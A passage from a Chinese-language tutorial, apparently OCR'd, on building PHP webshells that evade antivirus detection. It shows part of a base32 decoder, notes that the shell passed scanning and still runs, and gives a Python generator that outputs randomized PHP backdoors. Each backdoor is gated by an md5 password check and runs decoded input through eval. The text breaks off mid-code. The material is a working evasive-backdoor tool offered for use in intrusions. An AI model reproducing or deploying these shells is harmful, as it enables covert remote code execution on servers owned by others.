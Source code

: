 ```
            $v += (ord($input[$i]) - 97);  
        } elseif ($input[$i] >= '2' && $input[$i] <= '7') {  
            $v += (24 + $input[$i]);  
        } else {  
            exit(1);  
        }  
  
        $vbits += 5;  
        while ($vbits >= 8) {  
            $vbits -= 8;  
            $output .= chr($v >> $vbits);  
            $v &= ((1 << $vbits) - 1);  
        }  
    }  
    return $output;  
}  
?>  

```

继续查杀：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

能否运行：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

至此，我们似乎找到了盲点，以后直接自己写加密完事了。可惜一句话木马也被写成一段话木马了。。。不过在渗透测试过程中完全可以将其拆分为多个文件互相调用。  
**0x02：批量代码**  
同样为了减少特征  
代码如下

```
import random  
  
#author: pureqh  
#github: https://github.com/pureqh/webshell  
#use:GET:http://url?pass=pureqh POST:zero  
  
shell = '''<?php  
class {0}{1}  
        public ${2} = null;  
        public ${3} = null;  
        function __construct(){1}  
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){1}  
        $this->{2} = 'mv3gc3bierpvat2tkrnxuzlsn5ossoy';  
        $this->{3} = @{9}($this->{2});  
        @eval({5}.$this->{3}.{5});  
        {4}{4}{4}  
new {0}();  
function {6}(${7}){1}  
    $BASE32_ALPHABET = 'abcdefghijklmnopqrstuvwxyz234567';  
    ${8} = '';  
    $v = 0;  
    $vbits = 0;  
    for ($i = 0, $j = strlen(${7}); $i < $j; $i++){1}  
    $v <<= 8;  
        $v += ord(${7}[$i]);  
        $vbits += 8;  
        while ($vbits >= 5) {1}  
            $vbits -= 5;  
            ${8} .= $BASE32_ALPHABET[$v >> $vbits];  
            $v &= ((1 << $vbits) - 1);{4}{4}  
    if ($vbits > 0){1}  
```